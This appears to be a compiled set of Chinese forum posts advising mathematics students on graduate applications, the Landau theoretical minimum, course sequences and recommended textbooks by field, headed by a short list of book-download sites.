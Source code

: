 * books
http://gen.lib.rus.ec/
https://www.jiumodiary.com/
http://www.bartleby.com/
https://www.gutenberg.org/
http://digital.library.upenn.edu/
http://booksc.org/
http://vdisk.weibo.com/
http://ishare.iask.sina.com.cn/
https://bookfere.com/
http://www.xilinjie.com/
https://shuge.org/
* mathematics
数学ftp://210.45.114.81

从科研和人才培养上讲，我认为以下学校的数学学科应该算是世界顶尖水平：

　　美国：Princeton、NYU、UChicago、Berkeley、Havard、MIT、Caltech、Brown。

　　德国：玻恩大学。

　　俄罗斯：莫斯科大学、圣彼得堡大学。

　　日本：东京大学、京都大学。

　　以色列：希伯莱大学。

　　英国：剑桥大学。

　　法国：ENS de Ulm、巴黎第六大学、南巴黎大学。

　　瑞士：ETH Zurich。

　　匈牙利：Eotvos Lorand大学。

　　不过从申请上说，因为各种原因，有些学校水平虽然高，但是很少或者基本不提供
奖学金，比如说俄罗斯的莫斯科大学、圣彼得堡大学、匈牙利的Eotvos Lorand大学，还
有像法国巴黎第六大学、南巴黎大学、德国的玻恩大学，一般只对博士生提供奖学金，
硕士生就很难拿到奖学金，所以一般去那里都是读博士的。有些学校也提供奖学金，但
是毕业以后很难留下来找到合适的教职，要到其它国家找教职，所以申请难度也不是非
常高，比如说东京大学、京都大学、ETH Zurich。还有些学校，所在国家的语言国内找
不到地方教，所以没人会去，比如说以色列的希伯莱大学，教学是用希伯莱语，国内估
计只有北京上海能找到教希伯莱语的地方。所以实际上，申请难度最大的也就是这么几
个：

　　美国的Princeton、NYU、UChicago、Berkeley、Havard、MIT、Caltech、Brown，法
国的ENS de Ulm（巴黎高师），主要是美国的这几个学校，其中纯数学方面Princeton、
UChicago，应用数学方面NYU申请难度最大。法国的ENS de Ulm申请难度应该说和这三个
学校类似，但是因为申请的方式不同，侧重点不同，也不太好具体比较。

　　对于任何专业的申请，GPA、论文、推荐信、GT成绩都是比较关键的因素。不过相对
来说，GT一般就是达到一定标准即可。至于GPA，一般地说，敢申请Princeton、UChica
go、NYU，包括ENS de Ulm的GPA肯定都不会低，负责招生的教授要单看GPA也很难取舍。
在这种情况下，论文和推荐信这些东西就很关键了。特别对于数学专业，一般本科生很
难在申请的时候有发表的论文，如果谁有，自然就大占便宜了。至于推荐信，这个也是
显然的，如果你拿着Wolf数学奖得主级大牛的推荐信去申请，那当然是无往不胜了。

　　不过论文也罢，推荐信也罢，关键的是专业实力。大家要明白，人家给你奖学金，
让你去读研究生，那是指望你的专业水平，能帮教授出论文，能给本科生做好助教。至
于各种申请技巧，比如说找教授套瓷，基本的还是要靠你的专业实力，否则你都不知道
怎么和教授搭上话。就算搭上话了，人家几封信就看出你是草包，当然也不会要你了。
所以归根到底，要想拿到数学类的牛OFFER，一定要有专业实力。提高专业实力，这个是
个长期的过程，如果你等到大三快申请的时候才开始注意这点，基本上，我可以说，你
已经来不及了。所以一定要从现在就开始，抓紧时间提高实力。

　　提高专业实力的基本要点就两条：

　　1，要打好基础。

　　2，要尽早开始接触本学科的前沿，参加科研工作，早点写出有水平的论文。

　　特别是要指出的是，有些人总觉得，要把基础打得非常扎实，相关专业课都学完了
，才能开始参加讨论班、读论文、跟导师做研究。不过，这其实是个错误的指导思想。
打基础当然很重要，但是如果你非要等基础打的非常扎实、相关专业课都学完了，才去
读论文、参加讨论班，那么你恐怕本科毕业都不能开始做论文。课是上不完的，基础也
是打不完的。正确的做法是，基础打的差不多了，就开始参加一些讨论班，读专业论文
，然后边做研究，边打基础，边干边学。

　　对于数学类专业，特别是数学与应用数学专业，最重要的基础就是：数学分析、解
析几何、线性代数、抽象代数、古典微分几何、微分流形、实变函数、泛函分析、常微
分方程、偏微分方程、概率论。信息与计算科学专业还要加上数值分析。此外，四大力
学（理论力学、电动力学、量子力学、热力学与统计物理学）和连续介质力学对于数学
与应用数学专业和信息与计算科学专业（即计算数学）也是非常重要的。至于统计学专
业，因为我不太熟悉，就不提了。这些课程是相关方向的专门化课程的必要的基础，是
必须要学扎实的。但是正如前面说的，基础是打不完的，所以也不能完全等到把这些课
都学到滚瓜烂熟的时候才去学习专门化课和参加科研工作。

　　实事求是的说，科大的数学offer，虽然比除北大以外的其它学校都要好，但是和北
大还是有一些差距的。统计学和应用数学以及计算数学和北大比是半斤八两，可能还要
好一些，但是纯数学的offer确实存在差距，北大基本上每年都有Princeton或者UChica
go的纯数学offer，科大就没有，至于ENS de Ulm，因为科大过去的申请重点不在法国，
所以不好比较。至于原因，很简单，北大数学学院的本科生源比科大数学系要好一些，
北大新生中有奥赛金牌，这对申请是很有帮助的，此外有些竞赛保送生，高中的时候就
学过一些大学的课程，所以可以早些开始做论文。不过这点差距，还是完全可能通过努
力弥补的。对于想拿到 Princeton、UChicago的纯数学offer的学生，包括想去ENS de
Ulm的学生，我有四点建议：

　　1，对于数学类的基础课，应该在上课以前适当超前学习，最好能在大二以前就把基
础课自学一遍，这样学两遍，一可以保证比较高的GPA，二可以保证尽早开始做论文。

　　2，大三开始在系里找导师，参加科研，尽早完成论文。

　　3，对于参考书，看是一定要看的，但是最好就在课本之外选一本经典的国外教材，
把上面的题目做一遍就可以了。

　　4，GRE应该在大二结束以前通过，越早越好，这样做的原因是：首先，早点通过GR
E可以避免到后来又要上课又要读文献又要做研究，搞得手忙脚乱；其次早点过GRE，对
于提高阅读英文资料的速度是有好处的。还有就是，一般大家考GRE都是在暑假准备，但
是暑假恰恰是学术会议最多的时候。无论国内外都是如此，我觉得对于想拿顶级offer的
学生应该多争取机会参加这种会议，一方面固然是可以可以开拓眼界，另外一方面则是
在这些会议上，有可能能够和一些大牛建立学术上的联系，将来可以争取让他们写推荐
信，这对于申请来说非常重要。

　　对于四大力学，这里要说一下，如果是想往数学物理方向（不论是量子场论、弦论
、量子可积系统还是其它的方向）发展的，当然是越早学完越好，而且要学扎实，要看
参考书，而且要有全面的物理基础，要能达到Landau Minimum Exam的要求（不过这个也
可以等到出国读研究生的时候。），而且一定要上实验课，理论物理专业要上那些物理
实验课，想学数学物理的学生也要上。但是对于其它的学生，晚一些学也无妨，甚至可
以等到出国读研究生的时候再学，物理基础和实验也不需要有那么高的要求。

　　前面说到套瓷的问题，这里我再重点说一下。我发现很多人套瓷一点技术含量都没
有。我经常看见有人用类似这样的办法套瓷：“尊敬的XXX教授，我是 XXX大学的XXX，
我对你的研究方向很感兴趣，很想跟你读研究生，我的GPA是XXX，有论文XXX......”。
这样的套瓷，我可以说，除非那教授根本招不到人，否则一定会把这种东西当垃圾邮件
删除。这种用垃圾邮件制造商的办法去套瓷的办法，是最低级的办法，成功率基本为零
。我觉得，如果想套瓷，那必须要从学术上入手。比如说你想跟某个教授读研究生，那
么首先，动手要早，不要等到大四要申请的时候再去套，那么企图太明显，你起码等提
前大半年开始动手。其次，你要先研究这个教授的论文，看看能不能提出什么比较好的
问题或者做出什么改进之类，然后你给这个教授发信，说你对他的论文有些看法，想要
交流之类，先搭上话，然后慢慢拉关系，最后看到时间差不多，就可以提跟他读研究生
的问题。当然了，除此之外，还需要做一些其它的情报工作，比如说你得知道他有没有
钱招人，在系里的招生委员会里说不说得上话之类。这样套瓷，虽然不可能同时套很多
人，但是成功率绝对比前面一种套瓷有效。但是有个前提就是，你一定要有足够的学术
实力还可以这么做，否则你没有办法这样套瓷。



Landau Minimum Exam的具体要求：

1. 数学 1

考试内容：微分方程、数学物理方程、张量分析与微分几何


2. 力学

考试内容：Landau-Lifshits I, 除以下小节：27, 29, 30, 37, 51 (1988)

          V.I.Arnold，Mathematical methods of classical mechanics


3. 经典场论

考试内容：Landau and Lifshits II, 除以下小节：50, 54-57, 59-61, 68, 70, 74,

77, 97, 98, 102, 106, 108, 109, 115-119 (1989)


4.数学 2

考试内容：复变函数，特殊函数（Bessel，椭圆，gamma，正交多项式），积分变换


5.量子力学

考试内容：Landau-Lifshits III (1989) 除以下小节：29, 49, 51, 57, 77, 80, 84,


85, 87, 88, 90, 101, 104, 105, 106-110, 114, 138, 152


6.量子电动力学

考试内容：Landau-Lifshits IV (1980) 除以下小节：9, 14-16, 31, 35, 38-41, 46-


48, 51-52, 55, 57, 66-70, 82, 84-85, 87, 89-91, 95-97, 100-101, 106-109,

112, 115-144


7.统计物理学 I

考试内容：Landau-Lifshits V 除以下小节：22, 30, 50, 60, 68, 70, 72, 79, 80,

84, 95, 99, 100, 125-127, 134-141, 150-153, 155-160


8.连续介质力学

考试内容：流体力学，Landau-Lifshits VI (1986) 除以下小节：1, 13, 14, 21, 23,


25-27, 28, 30-32, 34-48, 53-59, 63, 67-78, 80, 83, 86-88, 90, 91, 94-141

弹性理论，Landau-Lifshits VII (1987) 除以下小节：8, 9, 11-21, 25, 27-30, 32-


47


9.连续介质电动力学

考试内容：Landau-Lifshits VIII (1982) 除以下小节：1-5, 9, 15, 16, 18, 25,

28, 34-35, 42-44, 56-57, 61-64, 69, 74, 79-81, 84, 91-112, 123, 126


10.统计物理学 II

考试内容：Landau-Lifshits IX (1978)，考以下小节：1-5, 7-18, 22-27, 29, 36-

40, 43-48, 50, 55-61, 63-65, 69


11.物理动理学

考试内容：Landau-Lifshits X (1979)，考以下小节：1-8, 11, 12, 14, 21, 22, 24,


27-30, 32-34, 41-44, 66-69, 75, 78-82, 86, 101.

这里写的Landau-Lifshits XX，比如说Landau-Lifshits VIII是指Landau和Lifshits的
理论物理教程第八卷。




本着求精不求多的原则，我给一个参考书目，至于其它的参考书，可以将来再慢慢看。
说实在的，其实做研究的过程也是一个打基础的过程，有时候自己什么地方基础不扎实
，也只有开始搞研究的时候才可以发现，考试100分的不一定基础就比90分的好，能做出
东西来那才是真格的。




第一学期，数学分析，高等代数，解析几何，数论,计算机C语言
第二学期.数学分析，线性代数，离散数学，计算机C语言，视觉几何和拓扑
第三学期，抽象代数，数学分析，点集拓扑，数理逻辑入门，计算机C++，常微分方程
第四学期，数学分析，电脑几何实践（wolfram mathematics 绘图）），常微分方程，概率论，经典微分几何，实分析。计算机C++
第五学期，偏微分方程，复变函数，数理统计，微分几何和拓扑（流形了），泛函分析，计算机实践（解非线性微分方程）。两门专业课。选修。很明显我选择了自己导师的。
第六学期，偏微分方程，复变函数（多变量到代数曲线），随机过程，泛函分析。计算机实践（边界问题算法），选修两门。加年级论文
第七学期，历史，数值分析，离散，数论，经典力学，计算机实践。变分法和最优化方程。两门选修。一门自然科学课（选的自动化与机器人理论）
第八学期，历史，数值分析，数学与历史和方法。解析力学，计算机实践两门选修。一门自然科学课（准备选的量子力学的几何结构）。第九学期，哲学，经济，力学。honors courses 要求选择两门以上。论文。
第十学期，哲学，力学。honors courses 要求选择两门以上。论文。
1、老老实实把课本上的题目做完。其实说科大的课本难,我以为这话不完整。科大的教材,就数学系而言还是讲得挺清楚的,难的是后面的习题。事实上做1道难题的收获是做10道简单题所不能比的。
2、每门数学必修课至少要看一本参考书,尽量做一本习题集。
3、数学分析别做吉米，除非你太无聊,推荐北大方企勤的习题集。此外注意一下有套波兰的数学分析习题集，是不是搞得到中文或英文版。
4、线性代数推荐普罗斯库列科夫的<<线性代数习题集>>和法捷耶夫的<<高等代数习题集>>。莫斯科大学要求把上面的题全做光。建议大家在搞定亚洲第一难书的同时也把里面的题打通。
5、解析几何不要不重视。现在有种削弱几何课的倾向,甚至有的学校把解析几何课改成只有两课时,这样一来,几何训练不足,会很吃亏的。
6、常微要看看阿诺尔德的书,打通菲利波夫的习题集。
7、数论课是很重要的,起码可以锻炼思维能力。
8、数学分析、线性代数、解析几何、泛函、拓扑、抽象代数、实变、微分几何是最重要的课,大家脱层皮也要学好。要尽量加强这方面的工底,不然的话以后很吃亏。
9、有时间去物理系多听课,千万不要毕业了连量子力学也不懂,这样的数学家注定要被淘汰的。读读费曼物理讲义和郎道的理论物理教程。
10、华罗庚的<<数论导引>>的前言大家好好看看,多多领会!
11、想读数理统计和计算数学的要注意,统计和计算数学同样是数学类的专业,不要以为加上计算和统计就可以降低要求。

数学分析——>常微分方程——>①实变函数——>②泛函分析——>函数论——>算子理论——>③偏微分方程——>傅里叶分析与小波分析——>积分变换——>数学物理方程
④高等代数——>⑤近世代数——>矩阵论——>运筹学&图论——>优化理论——>组合优化&凸优化——>数值分析与计算+③——> 偏微分方程数值解+②——>线性系统与复杂系统理论——>信息论+①②⑥——>模式识别+③——>统计学习or机器学习（含深度学习）
初等数论+⑤——>密码学原理+②（存疑，这块不太熟悉）——>椭圆函数论——>解析函数论
解析几何——>高等几何+③——>拓扑学——>微分几何+⑤——>流型论
⑥概率论与数理统计——>回归分析+④——>多元统计——>时间序列分析——>面板数据分析——>非参数统计——>贝叶斯统计——>抽样论——>实验设计——>生存分析与可靠性
测度论+①⑥——>高等概率论——>随机过程（含鞅）——>高等数理统计+③——>⑦随机微分方程
利息理论+⑥——>寿险精算——>非寿险精算——>金融工程+⑦——>金融衍生品



数学分析：

V.A.Zorich，数学分析，高等教育出版社。

G.M.Fikhtengolts，微积分学教程，高等教育出版社（只用看例题和数项级数那章就可
以了）。



 Mathematical Analysis：
 Principles of Mathematical Analysis, 3rd ed.	Rudin

线性代数与抽象代数：

E.B.Vinberg，A Course in Algebra，AMS。（建议优先选这本，不过这本书可能国内很
不容易找到，如果搞不到，那就看下面这本。）

A.I.Kostrikin，代数学引论，高等教育出版社。

解析几何：

V.V.Prasolov and V.M.Tikhomirov，Geometry，AMS。

常微分方程：

V.I.Arnold，Ordinary Differential Equation，Springer。

实变函数：

D.W.Stroock，A Concise Introduction to the Theory of Integration，Birkhauser
。


Real and Complex Analysis，Rudin


复变函数：

Kunihiko Kodaira（小平邦彦），Complex Analysis，Cambridge。


Complex Analysis：
Complex Analysis, 3rd ed，Ahlfors, Lars V


古典微分几何与微分流形：

B.A.Dubrovin、A.T.Fomenko、S.P.Novikov，Modern Geometry，Springer。

数论：

Kenneth Ireland，A Classical Introduction to Modern Number Theory，Springer。


泛函分析：

Peter D.Lax，Functional Analysis，Wiley-Interscience。

M.Reed、B.Simon，Methods of Modern Mathematical Physics, Vol. 1: Functional
Analysis，Academic Press。（看里面的无界算子那章就可以了。）




偏微分方程：

V.S.Vladimirov，Equations of Mathematical Physics，MIR。

V.S.Vladimirov，A Collection of Problems on Equations of Mathematical Physic
s，Springer。（这本书是前一本书的配套习题集，不过里面题目很多，要全做完不太可
能，选三分之一的题目应该就差不多了。）

概率论：

A.N.Shiryaev，Probability，Springer。（这书最好分成两部分看，第一部分是，第一
章的1-6节，第二章的1-8节、10 节、12-13节，第三章的1-8节、11节，第四章的1-4节
，第二部分是书里的其它部分。我以前用这本书教学的时候，第一部分是本科生必修课
“概率论”的内容，第二部分是多数方向的选修课和概率论方向的必修课“概率论的附
加章节”这门课的内容。）

随机过程：

A.V.Bulinsky、A.N.Shiryaev，随机过程论，高等教育出版社。

数理统计：

P.J.Bickel、K.A.Doksum，Mathematical Statistics Vol I，Prentice-Hall。

拓扑学：

V.A.Vassiliev，A.Sossinski，Introduction to Topology，AMS。（这本书的除了第一
章，其它各章的内容实际上在Novikov的Modern Geometry里也讲了，第一章在Zorich的
数学分析也讲了，不过这些重复的部分都是很重要的东西，好在书很薄，多看也不花费
多少时间。）

数值分析：

M.T.Heath，Scientific Computing: An Introductory Survey，McGraw-Hill。（数学
系现在用的数值分析教材应该是Kincaid的Numerical Analysis，这两本书正好互补。H
eath的这本书比较侧重于各种算法的上机实现。）

N.S.Bakhvalov，Numrical Method，MIR。

普通物理：

L.D.Landau、A.I.Akhiezer、E.M.Lifshitz，General Physics：Mechanics and Molec
ular Physics，Pergamon。

E.M.Purcell，Electricity and Magnetism，Mcgraw-Hill。

A.N.Matveev，Optics，Mir。

P.Feynman，The Feynman Lectures on Physics，Addison-Wesley。（重点推荐第三卷
，能在普通物理的层次上把量子力学的基本概念讲明白的，据我所知，也就是这本书了
，包括 Nobel奖得主Ginzburg编写的俄文版的普通物理教科书，这方面也有些问题。）


以上是数学类的主要课程。


下面是对于学纯数学的来说非常重要的课程：

代数拓扑学：

B.A.Dubrovin、A.T.Fomenko、S.P.Novikov，Modern Geometry，Springer。

R.Bott、L.W.Tu，Differential Forms in Algebraic Topology，Springer。

代数几何：

I.R.Shafarevich，Basic Algebraic Geometry Vol II，Springer。

表示论：

W.Fulton、J.Harris，Representation theory：A first course，Springer。

交换代数：

M.F.Atiyah、I.G.Macdonald，Introduction to Commutative Algebra，Addison-Wesl
ey。

微分拓扑学：

J.Milnor，Differential Topology。（作者在Princeton的油印讲义，没有正式出版，
中文翻译可以收在下面一本书的中文版里，翻译质量还不错。）

J.Milnor，Topology from the Differentiable Viewpoint，Princeton University P
ress。

J.Milnor，Morse Theory，Princeton University Press。

测度论：

Vladimir Bogachev，Measure Theory，Springer。（这本书的第一卷其实也是很不错的
实变函数教科书，第二卷则是包括很多新的研究成果的测度论教材，我相信这本书将在
很长一段时间成为测度论的标准教材。）

Fourier分析：

L.Hormander，The Analysis of Linear Partial Differential Operators I：Distri
bution Theory and Fourier Analysis，Springer。（Fourier分析是很重要的一门课，
不过很遗憾的是，中国学生在这方面学得很少，这是一个明显的缺陷。）

Fourier Analysis ：

Fourier Analysis: An Introduction，Stein, Elias M.



以下是理论物理方面的课程：

理论力学：

L.D.Landau、E.M.Lifshitz，Course of Theoretical Physics Volume 1：Mechanics，
Pergamon Press。

V.I.Arnold，Mathematical Methods of Classical Mechanics，Springer。

连续介质力学：

L.D.Landau、E.M.Lifshitz，Course of Theoretical Physics Volume 6：Fluid Mech
anics，Pergamon Press。

L.D.Landau、E.M.Lifshitz，Course of Theoretical Physics Volume 7：Theory of
Elasticity，Pergamon Press。

电动力学：

L.D.Landau、E.M.Lifshitz，Course of Theoretical Physics Volume 2：The Classi
cal Theory of Fields，Pergamon Press。

L.D.Landau、E.M.Lifshitz、L.P.Pitaevskii，Course of Theoretical Physics Volu
me 8：Electrodynamics of Continuous Media，Pergamon Press。

量子力学：

D.J.Griffiths，Introduction to Quantum Mechanics，Addison-Wesley。

高等量子力学：

L.E.Ballentine，Quantum Mechanics：A Modern Development，Prentice Hall。

统计物理学：

L.D.Landau、E.M.Lifshitz，Course of Theoretical Physics Volume 5：Statistica
l Physics Part I，Pergamon Press。

高等统计物理学：

M.Le Bellac、F.Mortessagne、G.Batrouni，Equilibrium and Non-Equilibrium Stat
istical Thermodynamics，Cambridge University Press。

E.M.Lifshitz、L.P.Pitaevskii，Course of Theoretical Physics Volume 9：Statis
tical Physics Part II，Pergamon Press。

E.M.Lifshitz、L.P.Pitaevskii，Course of Theoretical Physics Volume 10：Physi
cal Kinetics，Pergamon Press。

量子场论：

M.E.Peskin、D.V.Schroeder，An Introduction to Quantum Field Theory，Perseus。


广义相对论：

H.C.Ohanian、R.Ruffini，Gravitation and Spacetime，W.W.Norton & Company。

关于这个参考书目和下面的参考书目特别说明一下，我想对于纯数学专业，把这个参考
书目上的数学书看完，就算是打下一个足够的数学基础了。下一步就是按自己的研究方
向，按照需要什么学什么的原则，在导师指导下或者自己选一些相关的参考书看。

随便讲一下，我过去见过一些数学专业的学生，基本上都是本科生，野心很大，什么都
想搞，什么都想学，于是漫无目的的去看书读文献，精神可嘉，效果却没有一个好的。
我认为，即便是有人想成为Von Nuemann、Kolmogorov那样的所谓“全能型”数学家，也
不能这么看。首先现在不是Newton、Gauss的时代，也不是Poincare 的时代，自二十世
纪以来，数学知识成爆炸性增长，没有任何人可以面面俱到，二十世纪以前有可能有人
能够面面俱到，但是以后根本不可能，即便是Von Nuemann、Kolmogorov这样的号称“全
能”的数学家，其实也不是面面俱到的，Von Nuemann在数论和拓扑学上没有什么贡献，
Kolmogorov不搞数论，微分几何他也不研究。而且这二位的研究也有个主线，比如 Kol
mogorov，早年从Luzi的实变函数讨论班上学来了很多实变函数相关的东西，然后去Got
tingen访问的时候又从Emmy Noether那里学了点东西，他后来搞概率论、动力系统、泛
函分析、拓扑代数、拓扑学、流体力学、理论计算机科学、数理统计，其实通通都是在
这个基础上演化出来的。Von Nuemann的情况也差不多。

我觉得，正确的做法还是要先在一个方向上搞扎实，做出成果来，然后再争取往其它方
向扩展。看书读文献也一样，一定要有一个主线，其它东西只能是个补充，绝对不能喧
宾夺主。


【 在 garnetcrow (外交部首席发言人及两报一刊特?) 的大作中提到: 】
: 义务劳动
: Landau Minimum Exam的具体要求：
: 1. 数学 1
: 考试内容：微分方程、数学物理方程、张量分析与微分几何
: 2. 力学
: 考试内容：Landau-Lifshits I, 除以下小节：27, 29, 30, 37, 51 (1988)
:           V.I.Arnold，Mathematical methods of classical mechanics
: 3. 经典场论
: 考试内容：Landau and Lifshits II, 除以下小节：50, 54-57, 59-61, 68, 70, 74,
: 77, 97, 98, 102, 106, 108, 109, 115-119 (1989)
: .................（以下省略）


euro


Algebra

分析，几何很多。但代数太少。

代数方法是现代数学的核心。可惜中国人会的太少。

科大人不能陶醉在拿名校offer 光荣历史里。

北大这些年的学生代数功力比科大的学生强。因为有人告诉他们要读

Grothendieck's EGA. 科大的学生要自己组织讨论班。

要去找科大新来的老师：欧阳毅。让他帮助你们。

科大很多年没人学　arithmetic geometry, number theory, algebraic geometry,

没有这些代数功力，你几何都玩不转。The modern geometry is becoming more

and more algebraic. Even in Yau's seminar, you can hear Grothendieck, stack,


2-stack. Without algebra, you can hardly do mathematical physics either.


义务劳动



回复 #6 euro 的帖子

EGA全部看完，那很困难，特别是这本书只有法文版，没有英文版，老实说我也没有看完
。而且也并不是所有学代数几何和代数数论的都看过EGA。而且对于代数和数论来说，代
数几何是很重要，但是表示论的重要性也不在代数几何之下。我想学代数几何的话，还
是从Shafarevich的Basic Algebraic Geometry开始，然后看Harshorne的Algebraic Ge
ometry，然后根据个人研究方向，再学习诸如椭圆曲线、模形式、自守形式、复流形、
几何不变量理论，Abel簇之类的专门化课程。

不过这里提一下外语的问题，学数学光会英语还是不够用的，我想法语和俄语也是应该
会，至少应该有拿词典阅读专业文献的能力。比较好的办法是在英语过关的情况下，找
给英语为母语的人写的法语或者俄语教材，用英语来学法语或者俄语，因为从语言学上
讲，法语或者俄语和英语的亲缘关系要比和中文近得多。从英语学这两种语言也比用中
文来学更省力一些。
pppppppppppp

chan


学数学或者物理,本来就要看这么多东西,法语俄语还要顺带学着,有戏吗还


义务劳动



其实只是要求看懂文献的话，学好英语再去学法语或者俄语，这还是比较容易的，我可
没有说要把法语和俄语学到和英语一样听说读写都没有问题的程度。而且欧美不少学校
的数学博士都有类似的要求，比如说Princeton的数学博士就要求至少要能够阅读法语、
俄语、德语这三种语言中的两种写的文献。



各方向的一些专业门化课程的参考书，大家可以在自己组织讨论班或者上相关的专门化
课程的时候参考：

量子群、代数群与李理论方向：

J.P.Serre，Lie Algebras and Lie Groups，Springer。

A.L.Onishchik、E.B.Vinberg，Lie Groups and Algebraic Groups，Springer。

V.I.Voskresenskii，Algebraic Groups and Their Birational Invariants，AMS。

V.Kac，Infinite-dimensional Lie Algebras，Birkhauser。

J.Hong、S-J.Kang，Introduction to Quantum groups and Crystal Bases，AMS。

S.Majid，A Quantum Groups Primer，Cambridge University Press。

G.Lusztig，Introduction to Quantum Groups，Birkhauser。

S.Ariki，Representations of Quantum Algebras and Combinatorics of Young Tabl
eaus，AMS。

代数表示论方向：

J.A.Drozd、V.V.Kirichenko，Finite Dimensional Algebras，Springer。

M.Auslander、I.Reiten、S.O.Smalo，Representation theory of Artin Algebras，C
ambridge University Press。

I.Assem、A.Skowronski、D.Simson，Elements of the Representation Theory of As
sociative Algebras，Cambridge University Press。

C.M.Ringel，The Hall Algebra Approach to Quantum Groups（http://www.math.uni
-bielefeld.de/~ringel/elam.ps）。

C.M.Ringel，Tame Algebras and Integral Quadratic Forms，Springer。

W.Crawley-Boevey，Lectures on Representations of Quivers（http://www.amsta.l
eeds.ac.uk/~pmtwc/quivlecs.pdf）。

W.Crawley-Boevey，More Lectures on Representations of Quivers（http://www.am
sta.leeds.ac.uk/~pmtwc/morequivlecs.pdf）。

W.Crawley-Boevey，Geometry of Representations of Algebras（http://www.amsta.
leeds.ac.uk/~pmtwc/geomreps.pdf）。

V.Ginzburg, Geometric Methods in Representation Theory of Hecke Algebras and
 Quantum Groups（http://arxiv.org/abs/math.AG/9802004）。

C.M.Ringel, The Preprojective Algebra of a Quiver（http://www.mathematik.uni
-bielef ... rints/pr97046.ps.gz）。


数论方向：

J-P.Serre，A Course in Arithmetic，Springer。

A.A.Karatsuba，Basic Analytic Number Theory，Springer。

N.I.Koblitz，Introduction to Elliptic Curves and Modular Forms，Springer。

H.Lange、C.Birkenhake，Complex Abelian Varieties，Springer。

M.Hindry、J.Silverman，Diophantine geometry，Springer。

N.I.Koblitz，P-Adic Numbers，P-Adic Analysis and Zeta-Functions，Springer。

L.E.Washington，Introduction to Cyclotomic Fields，Springer。

J-P.Serre，Local Fields，Springer。

K.Iwasawa，Local Class Field Theory，Oxford University Press。

G.Shimura，Introduction to the Arithmetic Theory of Automorphic Functions，P
rinceton University Press。

R.J.Valenza、D.Ramakrishnan，Fourier Analysis on Number Fields，Springer。

J.Milne，Etale Cohomology，Princeton University Press。

R.Langlands，Automorphic Forms on GL(2)，Springer。

D.Bump，Automorphic Forms and Representations，Cambridge University Press。

P.Vojta，Diophantine Approximations and Value Distribution Theory，Springer。


C.Soule、D.Abramovich、J.F.Burnol、J.K.Kramer，Lectures on Arakelov Geometry
，Cambridge University Press。

代数几何方向：

R.Hartshorne，Algebraic geometry，Springer。

I.R.Shafarevich，Basic Algebraic Geometry Vol II，Springer。

D.Mumford、J.Fogarty、F.Kirwan，Geometric Invariant Theory，Springer。

V.I.Danilov、V.V.Shokurov，Algebraic Curve，Algebraic Manifolds and Schemes，
Springer。

D.Huybrechts，M.Lehn，The Geometry of Moduli Spaces of Sheaves，Vieweg。

W.Fulton，Intersection theory，Springer。

A.Beilinson、V.Drinfeld，Chiral Algebra，AMS。

Vladimir Drinfeld，Infinite-dimensional Vector Bundles in Algebraic Geometry
（http://arxiv.org/abs/math.AG/0309155）。

E.Frenkel，Recent Advances in the Langlands Program（http://arxiv.org/abs/ma
th/0303074）。

E.Frenkel，Ramifications of the geometric Langlands Program（http://arxiv.or
g/abs/math.QA/0611294）。

E.Frenkel，Affine Algebras，Langlands Duality and Bethe Ansatz（http://arxiv
.org/abs/q-alg/9506003）。

V.Ginzburg，Geometric Methods in Representation Theory of Hecke Algebras and
 Quantum Groups（http://arxiv.org/abs/math/9802004v3）。

C.Sorger，Lectures on Moduli of Principal G-Bundles Over Algebraic Curves（h
ttp://users.ictp.it/~pub_off/lectures/lns001/Sorger/Sorger.pdf3）。

V.Ginzburg，Perverse sheaves on a Loop group and Langlands's duality（http:/
/arxiv.org/abs/alg-geom/9511007）。

I.Mirkovic、K.Vilonen，Geometric Langlands Duality and Representations of Al
gebraic Groups over Commutative Rings（http://arxiv.org/abs/math.RT/0401222）
。

复分析与复几何方向：

B.V.Shabat，Introduction to Complex Analysis Part II，AMS。

D.Huybrechts，Complex Geometry，Springer。

P.Griffiths、J.Harris，Principles of algebraic geometry，Wiley。

C.Voisin、L.Schneps，Hodge Theory and Complex Algebraic Geometry，Cambridge
University Press。

D.Olivier，Higher Dimensional Algebraic Geometry，Springer。

W.Ballmann，Lectures on Kahler Manifolds，AMS。

W.Barth、C.Peters、A.Ven，Compect Complex Surfaces，Springer。

R.O'Neil，Differential Analysis on Complex Manifolds，Springer。

L.V.Ahlfors，Conformal Invariants，McGraw-Hill。

R.C.Gunning，Lectures on Riemann Surfaces，Princeton。

L.V.Ahlfors，Lectures on Quasiconformal Mappings，Nostrand Company。

A.A.Maks、V.G.Vladislav，Conformal Differential Geometry and Its Generalizat
ions，Wiley-Interscience。

H.Grauert、R.Remmert，Theory of Stein Space，Springer。

